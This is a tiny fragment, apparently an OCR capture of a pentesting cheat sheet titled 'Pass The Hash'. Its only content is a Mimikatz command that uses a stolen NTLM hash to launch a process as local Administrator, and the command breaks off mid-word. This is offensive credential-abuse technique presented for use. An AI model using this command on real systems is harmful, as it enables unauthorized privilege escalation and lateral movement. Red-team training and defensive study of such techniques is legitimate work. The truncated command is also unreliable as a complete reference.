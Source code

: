 # Pass The Hash

## **Pass the hash for local admin**

```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<computer> /user:Administrator /ntlm:<hash> /run:powe
```
